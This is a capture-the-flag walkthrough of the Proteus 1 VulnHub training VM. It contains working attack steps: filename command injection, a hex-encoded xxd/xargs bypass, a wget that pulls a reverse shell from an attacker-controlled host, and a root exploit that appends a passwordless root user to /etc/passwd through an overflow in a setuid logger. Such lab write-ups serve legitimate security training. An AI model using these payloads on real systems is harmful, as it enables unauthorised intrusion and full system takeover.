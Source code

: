 #Proteus 1 Vulnhub Walkthrough

##Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

##Download and Find It

Download the Proteus VM from (VulnHub)[https://www.vulnhub.com/entry/proteus-1,193/], load it up, and pick your favorite tool. For quick identification,
 I use nmap.
 
`nmap 192.168.2.0/24 -sP
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for Proteus (192.168.2.180)
Host is up (0.23s latency).
`

##Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules
depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

<INSERT CODE/IMAGE HERE>

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

##Proteus

Fire up Burp and head to the web page. First notes are that there is a file upload, which is always fun to play with, and a login. Some quick 
auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something that doesn't fit
the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to the /samples page. 

<IMAGE HERE>

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. We can also see uder
objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. I tried messing around wtih base64 encoded
filenames first, but it's always better to keep it simple. Test for command injection in the filename parameter. filename="file.bin;id" works when you 
reload your webpage. 

##Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a random string (and keeps
 the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we can use it to access our own payloads on the server if 
 need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails obviously when testing. 

Good chars <IMAGE>
Bad chars <IMAGE>

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port with nc, but I couldn't
actually connect or interact with it afterwards. Looking back at the good character list, we have access to pipe. Essentially, if we can string together
a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the execution by bassing to sh. 
It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). I also ran into an issue that the server changes the filename
 parameter to all lower case. Initially I messed with xargs -I, but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man)
 in favor of -I, so I'm glad I had a version (4.7.0) that still had it. 
 
##Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my works and possibly handle other use cases (though be wary of my shaky script
abilites). Let's check again to see everything working. Here is the payload with 'cat /etc/passwd'

<IMAGE>

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it somewhere else. wget supports this. 
`wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was successful, or you can 'ls' the /tmp directory.
If you check the /tmp directory with permissions, you can see they were nice enough to even grant our shell execute permissions. 

<IMAGE>

So now all I have to do is throw up a listner and execute the shell.

##>_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that can be used for the web page. There is even a 
RSA private key (password protected). Keep exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? The sticky bit
is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 
<IMG>
Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see 
interestinng effects. 
<IMG>

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as root with a certain space for a payload. 
A few things to note about the overflow: it starts user input with a new line, the user input is appended to the end of the file, the user has limited space for the payload, and 
the user has limited space in the file name for the path and file. Calculating the pattern offset is 456 based on the name of the file created when I hit the first overflow. 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work. 
`def pad(len):
    pad="A"*len
    return pad
`
`def gen():
    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite
    print payload
`
I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that the overflow just appends user input to the end. 
It also doesn't handle new lines very well either. Another easy thing to do is add an account to the machine. I crafted a user without a password and the machine still wouldn't let me
su. Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the :shell: section of /etc/passwd and the machine didn't know what to give me. 
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`
 
Now to su <username>, type the password, and pop to a root shell.
 
<IMG>
 
Now you can find the flag and display it. 
 
<IMG>
 
##Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. The system gives a lot of leeway to the user because it executes
commands in so many places and even grants them execute rights. Crafting the original injection is probably the hardest part. Now onto the next one.

